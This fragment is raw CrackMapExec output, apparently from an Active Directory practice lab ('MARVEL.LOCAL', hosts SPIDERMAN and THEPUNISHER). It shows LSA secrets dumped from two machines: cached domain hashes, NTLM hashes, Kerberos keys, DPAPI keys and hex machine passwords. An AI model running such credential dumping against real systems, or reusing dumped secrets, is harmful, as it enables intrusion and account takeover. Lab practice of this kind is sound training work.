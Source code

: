 ```
SMB         10.0.2.6        445    THEPUNISHER      MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c: (2025-08-13 04:31:46+00:00)
SMB         10.0.2.6        445    THEPUNISHER      MARVEL.LOCAL/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f: (2025-08-03 17:27:27+00:00)
SMB         10.0.2.4        445    SPIDERMAN        MARVEL\SPIDERMAN$:aes256-cts-hmac-sha1-96:a521036c562ddfa01bd87fc45e81b1f4d6a0bf674b909e327b3298f94198a67d                                                                                                                                                          
SMB         10.0.2.6        445    THEPUNISHER      MARVEL\THEPUNISHER$:aes256-cts-hmac-sha1-96:ddcc3c9b8dc4bac1e836f60ef909cb491342f4b4ed03dff68b2a9ac9e5fccf90                                                                                                                                                        
SMB         10.0.2.4        445    SPIDERMAN        MARVEL\SPIDERMAN$:aes128-cts-hmac-sha1-96:b4267987932dc7019749ce01fffaab6c
SMB         10.0.2.4        445    SPIDERMAN        MARVEL\SPIDERMAN$:des-cbc-md5:801cc729baf72994
SMB         10.0.2.4        445    SPIDERMAN        MARVEL\SPIDERMAN$:plain_password_hex:660057005d004c0024007a0073006e0053005d00760024004c002a0056005b004b0056002e0037002b00570045003a00460048002f002300450038003a0023004400480051005e006400290077003f00790021003f00200040004e005c003a0020004f00230067005700380070007900680043003f006400220032005e0054005d00710058003d006d007400280031006a005300710041002a00360064007900700032003800610064002d0030006500620042004a0077005d0056003e00320039006e006c002300750056004b005a005700220079004d004000380065006300760031006a006b0036003e0035007a00                                                       
SMB         10.0.2.4        445    SPIDERMAN        MARVEL\SPIDERMAN$:aad3b435b51404eeaad3b435b51404ee:1328c537e4ddf842c1456e4176112fdb:::
SMB         10.0.2.4        445    SPIDERMAN        dpapi_machinekey:0xc71286b734103cf91be8d2bb827f71564bd9670a
dpapi_userkey:0xb82bb65959427b2dcf15e8f26a5783149513427d                                                                                                    
SMB         10.0.2.6        445    THEPUNISHER      MARVEL\THEPUNISHER$:aes128-cts-hmac-sha1-96:565a3e21b9a72ae1d6f853619e4d7832
SMB         10.0.2.6        445    THEPUNISHER      MARVEL\THEPUNISHER$:des-cbc-md5:5e4934f8f1fb580d
SMB         10.0.2.6        445    THEPUNISHER      MARVEL\THEPUNISHER$:plain_password_hex:5a007900740052003500520066003500560036005600540036004900330034003f005b005b0023003f0042003a00230029006400770063006d0054003e003f0043006d003a003e00420071004a0062002800480047002d00350073003200640031007600500060007200540028006700530055006a0054004a0050003d00540031003f00240048007400480070007000560022002a0065002d00390061005d00280050003200690070003c0023003e004100520057003a0050002d00470035002000460022005c004f0022004c0021002000400041003300460062003b002e005700590022004e004a00770072002e00                                                     
SMB         10.0.2.6        445    THEPUNISHER      MARVEL\THEPUNISHER$:aad3b435b51404eeaad3b435b51404ee:a7310a9f64a8598773252ee0675e8aae:::
SMB         10.0.2.4        445    SPIDERMAN        NL$KM:2e5efc95c5db94063f3b4eddd653c4664ea38ca1cfe30a5eae8abc67392b5d5f7deac8603bd404fba0c96374793be1be8346b3dce8918f49b96f4e6f42ec4cff                                                                                                                              
SMB         10.0.2.4        445    SPIDERMAN        [+] Dumped 8 LSA secrets to /home/kali/.cme/logs/SPIDERMAN_10.0.2.4_2025-08-12_155925.secrets and /home/kali/.cme/logs/SPIDERMAN_10.0.2.4_2025-08-12_155925.cached
SMB         10.0.2.6        445    THEPUNISHER      dpapi_machinekey:0x70b810b6f3cea60a01c6a89983513809d549462f
dpapi_userkey:0x89d4bea229297fecdc2014e323945763f075a308                                                                                                    
SMB         10.0.2.6        445    THEPUNISHER      NL$KM:38e3a785c55877172f56ec298acf671dfa1bfdd7341960ca4ca7c86f2c6b9ec9a65c01ec71d107c73d5d70ece9c9a774ad34513326ab5a523bc9d33a14c79d86                                                                                                                              
SMB         10.0.2.6        445    THEPUNISHER      [+] Dumped 9 LSA secrets to /home/kali/.cme/logs/THEPUNISHER_10.0.2.6_2025-08-12_155925.secrets and /home/kali/.cme/logs/THEPUNISHER_10.0.2.6_2025-08-12_155925.cached
```
